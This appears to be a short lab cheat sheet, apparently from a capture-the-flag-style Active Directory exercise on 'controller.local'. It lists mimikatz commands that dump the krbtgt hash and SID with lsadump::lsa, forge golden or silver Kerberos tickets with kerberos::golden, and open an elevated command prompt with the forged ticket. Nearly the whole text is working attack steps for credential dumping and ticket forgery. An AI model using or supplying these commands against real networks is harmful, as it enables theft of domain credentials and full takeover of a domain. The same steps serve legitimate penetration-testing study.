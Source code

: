 # Commands

privilege::debug
    - ensure this outputs [privilege '20' ok]

lsadump::lsa /inject /name:krbtgt
    - This will dump the hash as well as the security identifier needed to create a Golden Ticket.
    - To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.

kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:
    - for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

misc::cmd
    - This will open a new elevated command prompt with the given ticket in mimikatz.
